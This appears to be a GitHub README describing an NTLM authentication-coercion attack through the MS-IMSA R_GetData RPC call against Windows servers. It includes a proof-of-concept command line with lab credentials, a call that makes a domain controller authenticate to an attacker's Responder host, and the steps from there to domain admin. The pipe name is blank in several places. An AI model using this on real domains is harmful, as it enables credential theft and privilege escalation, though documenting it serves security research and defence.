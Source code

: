 # MS-IMSA - Remote call to R_GetData (opnum 10)

## Summary

+ **Protocol**: [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457)

+ **Protocol UUID**: 70b51430-b6ca-11d0-b9b9-00a0c922e750

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`R_GetData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/7f8d396e-6eff-4141-a61c-859262b1e0a7)

+ **Function operation number**: `10`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol (with uuid `70b51430-b6ca-11d0-b9b9-00a0c922e750` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) and allows to call RPC functions of this protocol. We will then call the remote [`R_GetData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/7f8d396e-6eff-4141-a61c-859262b1e0a7) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_GetData('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT R_GetData(
   [in] METADATA_HANDLE hMDHandle,
   [unique, in, string] LPCWSTR pszMDPath,
   [in, out] METADATA_RECORD* pmdrMDData,
   [out] DWORD* pdwMDRequiredDataLen,
   [out] IIS_CRYPTO_BLOB** ppDataBlob
 );
```

## References

+ Documentation of protocol [MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457

+ Documentation of function `R_GetData`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/7f8d396e-6eff-4141-a61c-859262b1e0a7